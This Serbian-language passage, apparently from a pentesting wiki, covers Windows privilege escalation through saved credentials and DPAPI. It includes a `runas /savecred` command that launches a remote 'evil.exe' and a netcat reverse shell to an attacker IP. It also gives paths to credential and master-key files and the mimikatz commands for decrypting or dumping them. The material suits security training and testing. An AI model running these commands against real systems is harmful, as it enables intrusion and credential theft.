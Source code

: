 Zatim možete koristiti `runas` sa opcijama `/savecred` kako biste koristili sačuvane akreditacije. Sledeći primer poziva udaljeni binarni fajl putem SMB deljenja.

```bash
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
```

Korišćenje `runas` sa pruženim setom akreditacija.

```bash
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

Napomena da se mimikatz, lazagne, [credentialfileview](https://www.nirsoft.net/utils/credentials\_file\_view.html), [VaultPasswordView](https://www.nirsoft.net/utils/vault\_password\_view.html), ili iz [Empire Powershells modula](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/dumpCredStore.ps1).

### DPAPI

**Data Protection API (DPAPI)** pruža metod simetrične enkripcije podataka, uglavnom korišćen unutar Windows operativnog sistema za simetričnu enkripciju asimetričnih privatnih ključeva. Ova enkripcija koristi korisničku ili sistemsku tajnu kako bi značajno doprinela entropiji.

**DPAPI omogućava enkripciju ključeva kroz simetrični ključ koji se izvodi iz korisničkih prijava**. U scenarijima koji uključuju enkripciju sistema, koristi sistemsku tajnu za autentifikaciju domena.

Enkriptovani korisnički RSA ključevi, korišćenjem DPAPI-ja, čuvaju se u direktorijumu `%APPDATA%\Microsoft\Protect\{SID}`, gde `{SID}` predstavlja [Security Identifier](https://en.wikipedia.org/wiki/Security\_Identifier) korisnika. **DPAPI ključ, smešten zajedno sa glavnim ključem koji štiti korisničke privatne ključeve u istom fajlu**, obično se sastoji od 64 bajta slučajnih podataka. (Važno je napomenuti da je pristup ovom direktorijumu ograničen, sprečavajući listanje sadržaja putem `dir` komande u CMD-u, mada se može listati putem PowerShell-a).

```powershell
Get-ChildItem  C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem  C:\Users\USER\AppData\Local\Microsoft\Protect\
```

Možete koristiti **mimikatz modul** `dpapi::masterkey` sa odgovarajućim argumentima (`/pvk` ili `/rpc`) da biste je dešifrovali.

**Datoteke sa kredencijalima zaštićene glavnom lozinkom** obično se nalaze u:

```powershell
dir C:\Users\username\AppData\Local\Microsoft\Credentials\
dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

Možete koristiti **mimikatz modul** `dpapi::cred` sa odgovarajućim `/masterkey` za dešifrovanje.\
Možete **izvući mnogo DPAPI** **masterključeva** iz **memorije** pomoću modula `sekurlsa::dpapi` (ako ste root).

{% content-ref url="dpapi-extracting-passwords.md" %}
[dpapi-extracting-passwords.md](dpapi-extracting-passwords.md)
{% endcontent-ref %}
